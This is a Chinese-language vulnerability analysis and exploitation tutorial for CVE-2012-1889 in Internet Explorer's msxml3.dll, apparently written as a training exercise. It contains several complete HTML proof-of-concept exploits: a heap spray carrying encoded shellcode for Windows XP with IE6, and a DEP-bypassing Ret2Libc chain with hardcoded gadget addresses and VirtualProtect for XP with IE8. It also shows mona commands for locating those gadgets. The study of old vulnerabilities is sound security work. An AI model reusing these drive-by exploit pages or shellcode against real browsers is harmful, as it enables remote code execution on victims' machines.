软件名称：Microsoft Internet Explorer
操作系统：Windows Xp/7
软件版本：6.0/8.0
漏洞编号：CVE-2012-1889
漏洞模块：msxml3.dll
危害等级：高危
模块版本：8.90.1101.0
漏洞类型：缓冲区溢出
编译日期：2008-04-14
威胁类型：远程
1. 软件简介
Microsoft XML Core Services(MSXML)是一组用于用Jscript、VBScript、Microsoft开发工具编写构筑基于XML的Windows-native应用的服务。
2. 漏洞成因
Microsoft XML Core Services 3.0~6.0版本中存在漏洞，该漏洞源于访问未初始化内存的位置。远程攻击者可借助特制的web站点利用该漏洞执行任意代码或导致拒绝服务。
该漏洞产生于msxml3.dll模块中，msxml3.dll是微软的一个SAX2 帮助程序类。主要用途包括：XSL 转换 (XSLT) 和 XML 路径语言 (XPath) 的完全实现、对 XML (SAX2) 实现的简单 API 的修改，包括与万维网联合会 (W3C) 标准和 OASIS 测试套件保持更高一致性。
3. 利用过程
根据网上的资料，了解到漏洞利用过程由简单到困难有3个层次
操作系统和IE版本
数据执行保护(DEP)
随机基址(ASLR)
Win XP + IE 6
否
否
Win XP + IE 8
开启
否
Win 7 + IE 8
开启
开启
3.1 win xp + IE6.0
1 2 3 4 5 6 7 8 9 10 11 <html > <head > <title > CVE 2012-1889 PoC v1 By:15PB.Com</title > </head > <body > <object classid ="clsid:f6D90f11-9c73-11d3-b32e-00C04f990bb4" id ='15PB' > </object > <script > document .getElementById("15PB" ).object.definition(0 ); </script > </body > </html >
Windbg附加，使用poc进行测试，查看产生异常的地方



1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 <html > <head > <title > CVE 2012-1889 PoC v2 By:15PB.Com</title > </head > <body > <object classid ="clsid:f6D90f11-9c73-11d3-b32e-00C04f990bb4" id ='15PB' > </object > <script > var obj15PB = document .getElementById('15PB' ).object; var srcImgPath = unescape ("\u0C0C\u0C0C" ); while (srcImgPath.length < 0x1000 ) srcImgPath += srcImgPath; srcImgPath = "\\\\15PB_Com" + srcImgPath; nLenth = 0x1000 -4 -2 -1 ; srcImgPath = srcImgPath.substr(0, nLenth); var emtPic = document .createElement("img" ); emtPic.src = srcImgPath; emtPic.nameProp; obj15PB.definition(0 ); </script > </body > </html >

这条指令试图从地址为0x0C0C0C0C的内存中取内容，引发了数据访问权限异常，根据上文可知，eax寄存器的值来自于栈中，说明此时栈中的数据内容为0x0C0C0C0C，而该值是poc2中被构造的畸形数据的一部分，那么我们可以通过poc2的方式将eax填充为我们想要的内容就可以利用该漏洞。
3.1.1堆喷射(Heap Spray)
堆喷射是在shellcode的前面加上大量的slide code(跳板指令)，组成一个注入代码段，然后向系统申请大量内存，并且反复用注入代码段来填充。这样就使得内存被大量的注入代码占据。然后通过结合其他漏洞控制程序流，使得程序执行到堆上，最终将导致shellcode的执行。
堆喷射的底层原理在于javascript中所有字符串通过堆保存，并且堆空间的增长是从低地址到高地址方向进行的，如果使用堆空间保存字符串数组，并且在该字符串数组中保存字符串，就会导致字符串在堆中从低地址到高地址依次占据内存空间，当该字符串足够长时，就会超出堆空间预先设定的大小，淹没更高地址的堆空间，造成堆溢出。实际应用中，经常通过构造长度为200MB的字符串并保存在堆中，从而淹没0x0C0C0C0C地址处的内存空间。
构造POC利用代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 <html > <head > <title > CVE 2012-1889 PoC v3 By:15PB.Com</title > </head > <body > <object classid ="clsid:f6D90f11-9c73-11d3-b32e-00C04f990bb4" id ='15PB' > </object > <script > var cShellcode = unescape ( "\uC033\uFFE8\uFFFF\uC3FF\u8D58\u1B70\uC933\uB966\u027B\u048A\u340E\u8807\u0E04\uF6E2\u3480\u070E\uE6FF\uEB84\uEC77\u404D\u7362\u7557\u6468\u6346\u7563\u7462\u0774\u684B\u6366\u6E4B\u7565\u7566\u427E\u467F\u5207\u6274\u3475\u2935\u6B63\u076B\u624A\u7474\u6066\u4562\u7F68\u0746\u7F42\u736E\u7557\u6468\u7462\u0774\u6F7D\u6572\u6C68\u6E66\uEF07\u0707\u0707\u635C\u328C\u0737\u0707\u718C\u8C0B\u1B71\u318C\u518C\u540F\uEF55\u0713\u0707\uF78C\u4C8A\u55C7\u5556\uD7F8\u545D\u5751\uEF55\u0769\u0707\u8C52\u84EB\u0BEB\u8C55\u0F52\u758C\u8A3B\u3533\u718C\u8A7F\u3533\u798C\u8A1B\u3D3B\u7A8E\u8CFB\u2779\u3B8A\u8E3D\uFF7A\u798C\u8A23\u3D3B\u7A8E\u34F3\uECC7\u4706\u728C\u8CFF\u8133\u528C\u8A0F\u3533\u5A8C\u8A0B\uB67C\u09BE\u0707\uFB07\uA1F4\uE472\u728C\u34F3\u61F8\u3B8C\u8C41\uFB52\u338C\u8CBD\u0F52\u038A\u5D35\uE28C\uC55A\u070F\u8C52\u84EB\u0FEB\u5A8C\u8A13\uC84C\u076D\u076D\uF856\u0B52\u4C8A\u56DD\uF857\u1752\u428E\u8AFB\uE14C\uF856\u0F72\u52F8\u8E17\uFF42\u4C8A\u6DF5\u5607\u6D56\uF807\uFB52\u076D\u52F8\u8CFF\u5AE2\u17C5\u0707\u0000" ); var nSlideSize = 1024 *1024 / 2 ; var nMlcHadSize = 32 / 2 ; var nStrLenSize = 4 / 2 ; var nTerminatorSize = 2 / 2 ; var nScSize = cShellcode.length; var nFillSize = nSlideSize-nMlcHadSize-nStrLenSize-nScSize-nTerminatorSize; var cFillData = unescape ("\u0C0C\u0C0C" ); var cSlideData = new Array (); while (cFillData.length <= nSlideSize) cFillData += cFillData; cFillData = cFillData.substring(0, nFillSize); for (var i = 0 ; i < 200 ; i++) cSlideData[i] = cFillData + cShellcode; var obj15PB = document .getElementById('15PB' ).object; var srcImgPath = unescape ("\u0C0C\u0C0C" ); while (srcImgPath.length < 0x1000 ) srcImgPath += srcImgPath; srcImgPath = "\\\\15PB_Com" + srcImgPath; srcImgPath = srcImgPath.substr(0, 0x1000-10); var emtPic = document .createElement("img" ); emtPic.src = srcImgPath; emtPic.nameProp; obj15PB.definition(0); </script > </body > </html >

3.2 Win xp + IE 8
IE8浏览器开启了数据执行保护(DEP)，我们需要使用精准堆喷射以及Ret2Libc技术来完成攻击，还需要用到mona2插件
3.2.1 DEP
DEP 保护是缓冲区溢出攻击出现后，出现的一种防护机制，它的核心思想就是将内存分块后，设置不同的保护标志，令表示代码的区块拥有执行权限，而保存数据的区块仅有读写权限，进而防止数据区域内的shellcode执行。
DEP的实现分为两种，一种为软件实现，是由各个操作系统编译过程中引入的，在微软中叫做SafeSEH。另一种为硬件实现，由英特尔这种CPU硬件生产厂商固化到硬件中的，也称作NX保护机制。
由于DEP的存在，将堆栈页属性设置为不可执行，导致之前在堆空间0x0C0C0C0C地址上执行指令的操作无法实现，如果需要实现漏洞利用，需要设法绕过DEP机制。
3.2.2 Ret2Libc
绕过DEP需要用到Ret2Libc(即Return to libc)技术，即在程序中填充大量系统代码领空的地址，当程序以该地址作为函数地址执行或作为函数返回地址时，程序执行流程会从原程序代码领空跳转到系统代码领空，系统代码领空的地址所对应的指令的特征为总是以ret指令作为指令系列的结尾，从而当程序执行完系统代码之后，会从栈顶取出函数的返回地址，继续执行该地址上的指令。
如果在系统代码领空找到此类指令，并将指令地址依次保存在栈中，程序就会依次执行系统代码领空的指令，通过规定指令执行的顺序，从而完成攻击操作，由完成攻击操作的指令序列也被称为Ret2Libc链
另外，必须保证跳转到堆上的时候正好位于Ret2Libc链的第一条指令，因此需要使用精准堆喷射技术，才可以保证0x0C0C0C0C处为Ret2Libc链的第一个字节，使用windbg查看0x0C0C0C0C所在的堆块的属性以及0x0C0C0C0C距离堆空间首地址的偏移



使用命令!py mona find -s “\x94\xc3” -m msvcrt.dll查找xchg eax, esp;ret指令序列

使用命令!py mona find -s “\xc3” -m msvcrt.dll查找ret指令地址

使用命令!py mona find -s “\x5d\xc3” -m msvcrt.dll查找pop ebp;ret指令序列

使用命令u kernel32!VirtualProtect 找到 VirtualProtect的地址


使用LordPE查看mscvrt.dll，data段的RVA

使用命令!Address 加载基址 + RVA，查看data段地址和属性


ret指令地址
0x77be1110
pop ebp;ret指令序列地址
0x77bebb36
Xchg eax,esp;ret指令序列地址
0x77BE5ED5
VirtualProtect地址
0x7c801ad4
VirtualProtect第四个参数
0x77c38123
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 <html > <head > <title > Step3_Stack_Pivot By:15PB.Com</title > </head > <body > <object classid ="clsid:f6D90f11-9c73-11d3-b32e-00C04f990bb4" id ='15PB' > </object > <script > var cPadding = unescape ("\u0C0C\u0C0C" ); while (cPadding.length < 0x1000 ) cPadding += cPadding; cPadding = cPadding.substring(0, 0x5F6); var cRet2Libc = unescape ( "\u1110\u77BE" + "\uBB36\u77BE" + "\u5ED5\u77BE" + "\u1110\u77BE" + "\u1110\u77BE" + "\u1110\u77BE" + "\u1110\u77BE" + "\u1AD4\u7C80" + "\u0c40\u0c0c" + "\u0c00\u0c0c" + "\u1000\u0000" + "\u0040\u0000" + "\u8123\u77C3" ); var cPayload = unescape ( "\uC033\uFFE8\uFFFF\uC3FF\u8D58\u1B70\uC933\uB966\u027B\u048A\u340E\u8807\u0E04\uF6E2\u3480\u070E\uE6FF\uEB84\uEC77\u404D\u7362\u7557\u6468\u6346\u7563\u7462\u0774\u684B\u6366\u6E4B\u7565\u7566\u427E\u467F\u5207\u6274\u3475\u2935\u6B63\u076B\u624A\u7474\u6066\u4562\u7F68\u0746\u7F42\u736E\u7557\u6468\u7462\u0774\u6F7D\u6572\u6C68\u6E66\uEF07\u0707\u0707\u635C\u328C\u0737\u0707\u718C\u8C0B\u1B71\u318C\u518C\u540F\uEF55\u0713\u0707\uF78C\u4C8A\u55C7\u5556\uD7F8\u545D\u5751\uEF55\u0769\u0707\u8C52\u84EB\u0BEB\u8C55\u0F52\u758C\u8A3B\u3533\u718C\u8A7F\u3533\u798C\u8A1B\u3D3B\u7A8E\u8CFB\u2779\u3B8A\u8E3D\uFF7A\u798C\u8A23\u3D3B\u7A8E\u34F3\uECC7\u4706\u728C\u8CFF\u8133\u528C\u8A0F\u3533\u5A8C\u8A0B\uB67C\u09BE\u0707\uFB07\uA1F4\uE472\u728C\u34F3\u61F8\u3B8C\u8C41\uFB52\u338C\u8CBD\u0F52\u038A\u5D35\uE28C\uC55A\u070F\u8C52\u84EB\u0FEB\u5A8C\u8A13\uC84C\u076D\u076D\uF856\u0B52\u4C8A\u56DD\uF857\u1752\u428E\u8AFB\uE14C\uF856\u0F72\u52F8\u8E17\uFF42\u4C8A\u6DF5\u5607\u6D56\uF807\uFB52\u076D\u52F8\u8CFF\u5AE2\u17C5\u0707\u0000" ); var nSlideSize = 0x1000 ; var nPadSize = cPadding.length; var nR2LSize = cRet2Libc.length; var nPySize = cPayload.length; var nFillSize = nSlideSize-nPadSize-nR2LSize-nPySize; var cFillData = unescape ("\u0C0C\u0C0C" ); while (cFillData.length < nSlideSize) cFillData += cFillData; cFillData = cFillData.substring(0, nFillSize); var nBlockSize = 0x40000 ; var cBlock = cPadding + cRet2Libc + cPayload + cFillData; while (cBlock.length < nBlockSize) cBlock += cBlock; cBlock = cBlock.substring(2, nBlockSize-0x21); var cSlideData = new Array (); for (var i = 0 ; i < 800 ; i++) cSlideData[i] = cBlock.substr(0, cBlock.length); var obj15PB = document .getElementById('15PB' ).object; var srcImgPath = unescape ("\u0C0C\u0C08" ); while (srcImgPath.length < 0x1000 ) srcImgPath += srcImgPath; srcImgPath = "\\\\15PB_Com" + srcImgPath; srcImgPath = srcImgPath.substr(0, 0x1000-10); var emtPic = document .createElement("img" ); emtPic.src = srcImgPath; emtPic.nameProp; obj15PB.definition(0); </script > </body > </html >

3.3 Win 7 + IE 8 3.3.1 ASLR
地址空间布局随机化(Address space layout randomization, ASLR)是微软从Windows Vista开始加入的一种安全保护机制，它通过随机化几乎是所有模块的加载地址，使得预测指定地址或者使用指定地址的代码变成了一件十分困难的事
3.3.2 绕过ASLR
找到程序进程中没有开启随机基址的模块，比如java的运行环境，FlashPlayer，使用此类模块中的序列构造Ret2Libc链
使用堆喷射，可以控制任意地址中的任意内容，不受随机基址影响
利用操作系统的固定点，3环中部分函数的地址是不变的，通过分析windows源码，有的函数定义的时候是个宏，说明其地址是固定的，如果知道该地址，可以进行利用
Intel的cpu使用小端保存数据，高位数据保存在内存高地址，低位数据保存在内存低地址，随机基址只能将内存地址中的基址随机化，无法随机相对虚拟地址rva，通过淹没一个地址的低十六位，即只修改rva，可以绕过随机基址，从而访问到指定内存位置
在Win7 + IE8环境中，可以看到所有模块都开了随机基址，无法通过第一种方法绕过

对于第二种绕过随机基址方式，因为Win7 + IE8环境中默认开启了DEP，所以无法再堆空间执行指令，如果需要关闭堆空间，前提就是构造Ret2Libc链，而随机基址使得这个方法也无法达成
对于第三种方法，分析者不清楚此类函数的具体内容，也无法使用
对于第四种方法，其方法奏效的前提是特定的函数地址的基址由程序自身根据当前的实际加载基址进行填充，本漏洞利用过程中所执行的代码均位于堆空间，程序自身无法影响该部分代码的内容，此方法也失效
综上，在Win7 + IE8环境下，如果需要绕过ASLR，需要浏览器本身安装特定插件，此类插件中存在未开启随机基址的模块，并通过mona查询该模块中的特定指令序列的地址，以此构造Ret2Libc链，思路和Win xp + IE8的漏洞利用相似
4. 结语
暴雷漏洞虽然是一个比较老的漏洞，但是作为新手拿来练习还是不错的，使用到了堆喷射，精准堆喷射，Ret2Libc等技术，其中每一项技术都是值得去深挖和研究的，本次分析也提高了自身对底层知识和汇编的理解，对以后分析高难度的漏洞打好了基础
5. 参考资料
-------------本文结束